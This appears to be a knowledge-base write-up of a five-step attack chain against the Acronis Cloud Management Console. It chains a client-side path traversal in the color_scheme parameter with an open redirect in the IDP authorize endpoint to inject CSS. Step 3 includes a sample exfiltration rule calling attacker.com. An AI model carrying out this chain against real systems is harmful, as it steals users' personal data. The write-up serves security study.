

# CSS Injection via Client-Side Path Traversal and Open Redirect for Data Exfiltration in Acronis Cloud

Multi-stage attack chain demonstrating exploitation of client-side path traversal and open redirect vulnerabilities in the Acronis Cloud Management Console to inject malicious CSS and exfiltrate sensitive user data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Developer-Tools]]

### Target Environment

- Web platform
- Acronis Cloud Management Console (e.g., https://mc-beta-cloud.acronis.com)
- Required services/ports: HTTPS (443)
- Network access requirements: Internet access to target domain

### Initial Access Requirements

- Logged-in session as a partner user in Acronis Cloud
- Attacker-controlled server for hosting CSS (e.g., localhost or remote)
- No prior access needed beyond valid login credentials

## Detailed Attack Procedures

### Step 1: Discover Path Traversal
procedure: [[procedures/Discover-Client-Side-Path-Traversal-in-Color-Scheme-Parameter]]

**Objective**: Identify the client-side path traversal vulnerability in the color_scheme GET parameter to manipulate CSS file loading paths.

**Instructions**: Access the target URL with a test parameter and inspect the JavaScript code using browser developer tools to observe how the color_scheme value is appended to the CSS URL without sanitization.

**Expected Output**: Requests to manipulated CSS paths, such as https://mc-beta-cloud.acronis.com/../test.css.

**Success Indicators**:
- Path traversal characters like '../' alter the requested CSS URL
- No server-side blocking of traversal attempts

### Step 2: Identify Open Redirect
procedure: [[procedures/Identify-Open-Redirect-in-IDP-Authorize-Endpoint]]

**Objective**: Confirm the open redirect vulnerability in the /api/2/idp/authorize/ endpoint via the controllable state parameter.

**Instructions**: Test the endpoint by supplying an arbitrary external URL in the state parameter and observe the redirect in the Location header.

**Expected Output**: Browser or tool follows redirect to attacker-specified domain without validation.

**Success Indicators**:
- Redirect to external domain (e.g., http://localhost) succeeds
- No allowlist or validation on state parameter

### Step 3: Host Malicious CSS
procedure: [[procedures/Host-Malicious-CSS-File-on-Attacker-Server]]

**Objective**: Prepare a malicious CSS file containing rules to exfiltrate data via background-image URLs or similar properties.

**Instructions**: Create a CSS file with selectors targeting DOM elements for data extraction and host it on an attacker-controlled server.

**Expected Output**: CSS file accessible at http://attacker-server/css/core.css, with rules like background-image: url('http://attacker.com/exfil?data=extracted_value').

**Success Indicators**:
- CSS file loads correctly when accessed directly
- Exfiltration rules trigger GET requests to attacker server

### Step 4: Craft and Trigger Exploit
procedure: [[procedures/Craft-Exploit-URL-and-Trigger-Redirect-as-Logged-In-User]]

**Objective**: Combine path traversal and open redirect to force the browser to load the malicious CSS file.

**Instructions**: As a logged-in partner, construct the exploit URL using URL-encoded traversal to point to the open redirect endpoint, setting state to the malicious CSS URL, and visit it.

**Expected Output**: Browser follows the redirect chain and loads the external CSS file.

**Success Indicators**:
- Network tab shows request to open redirect endpoint
- Subsequent request to attacker CSS server

### Step 5: Exfiltrate Data
procedure: [[procedures/Exfiltrate-Data-via-Malicious-CSS-Injection]]

**Objective**: Use the injected CSS to target and extract sensitive DOM attributes, sending them to the attacker server.

**Instructions**: Monitor attacker server logs for incoming exfiltration requests triggered by CSS selectors matching user data elements.

**Expected Output**: GET requests to attacker.com with parameters containing user names, hashes, IP, etc.

**Success Indicators**:
- Data exfiltrated (e.g., usernames, account hashes)
- Logs show unique identifiers from victim session

## Attack Chain Summary

### Key Achievements

1. Successful client-side path traversal to overwrite CSS paths
2. Exploitation of open redirect to load external CSS
3. Data exfiltration of personal information via CSS properties

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Drive-by Compromise]]
- [[Exfiltration Over Unencrypted Non-C2 Protocol]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
